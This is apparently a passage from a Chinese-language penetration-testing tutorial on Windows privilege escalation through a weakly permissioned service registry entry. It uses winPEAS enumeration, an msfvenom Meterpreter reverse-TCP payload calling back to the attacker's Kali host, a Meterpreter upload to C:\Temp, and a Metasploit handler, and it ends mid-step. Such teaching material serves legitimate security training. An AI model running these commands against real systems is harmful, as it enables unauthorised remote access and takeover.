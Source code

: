     图 9.15 – winPEAS 二进制文件

    下载二进制文件到我们的 Kali 虚拟机后，我们需要将 `winPEAS.exe` 二进制文件传输到目标虚拟机。

1.  我们可以通过运行以下命令，将 `winPEAS.exe` 二进制文件通过 Meterpreter 传输到目标系统：

    **上传 /<PATH-To-BINARY>/winPEASx64.exe**

    如果使用的是标准命令行 shell，可以使用 `certutil` 工具将二进制文件传输到目标系统。

1.  上传 `winPEAS.exe` 二进制文件到目标系统后，可以通过运行以下命令枚举服务注册表值列表：

    `.\winPEASx64.exe servicesinfo`

    如下图所示，这将列出可以修改的服务注册表值。在我们的案例中，可以识别出具有所需权限的 `regsvc` 服务：

    ![图 9.16 – winPEAS 不安全的注册表服务    ](img/B17389_09_016.jpg)

    图 9.16 – winPEAS 不安全的注册表服务

    在这种情况下，我们可以修改服务并更改 `ImagePath` 为我们自定义 Meterpreter 可执行文件的路径。

1.  过程中的第二步是使用`MSFvenom`生成自定义的 Meterpreter 可执行文件。可以通过在 Kali 中运行以下命令完成：

    `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<KALI-IP> LPORT=<PORT> -f exe > shell.exe`

1.  生成可执行文件后，我们可以将其上传到 Windows 临时目录，位置如下：

    C:\Temp

1.  现在，我们可以通过 Meterpreter 将自定义可执行文件上传到目标的临时目录，方法是运行以下命令：

    **上传 /home/kali/Desktop/shell.exe**

    如果使用的是标准命令行 shell，可以使用 `certutil` 工具将二进制文件传输到目标系统。

    如下图所示，这将把 Meterpreter 可执行文件上传到临时目录：

    ![图 9.17 – Meterpreter – 上传自定义可执行文件    ](img/B17389_09_017.jpg)

    图 9.17 – Meterpreter – 上传自定义可执行文件

1.  现在，我们需要使用 Metasploit 设置 Meterpreter 监听器。可以通过在 Metasploit 控制台中运行以下命令来完成：

    `use /exploit/multi/handler`

1.  下一步是指定我们用来创建自定义可执行文件的有效载荷，使用`MSFvenom`来完成。可以通过运行以下命令来实现：
